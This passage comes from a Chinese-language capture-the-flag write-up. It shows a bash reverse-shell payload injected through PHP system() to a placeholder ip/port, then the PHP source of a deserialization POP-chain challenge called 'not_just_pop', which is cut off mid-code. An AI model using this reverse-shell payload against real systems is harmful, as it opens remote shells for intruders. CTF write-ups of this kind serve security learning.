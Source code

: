额，好像无法直接在页面回显，需要反弹Shell才能看到报错信息

```
system("/bin/bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'");
```

注意payload依然需要url编码

![](./images/image-53.png)

## not\_just\_pop

源码如下

```
<?php
highlight_file(__FILE__);
ini_get('open_basedir');

class lhRaMK7{
    public $Do;
    public $You;
    public $love;
    public $web;
    public function __invoke()
    {
        echo "我勒个豆，看来你有点实力，那接下来该怎么拿到flag呢？"."<br>";
        eval($this->web);
    }
    public function __wakeup()
    {
        $this->web=$this->love;
    }
    public function __destruct()
    {
        die($this->You->execurise=$this->Do);
    }

}

class Parar{
    private $execurise;
    public $lead;
    public $hansome;
    public function __set($name,$value)
    {
        echo $this->lead;
    }
    public function __get($args)
    {
        if(is_readable("/flag")){
            echo file_get_contents("/flag");
        }
        else{
            echo "还想直接读flag，洗洗睡吧，rce去"."<br>";
            if ($this->execurise=="man!") {
                echo "居然没坠机"."<br>";
                if(isset($this->hansome->lover)){
                    phpinfo();
```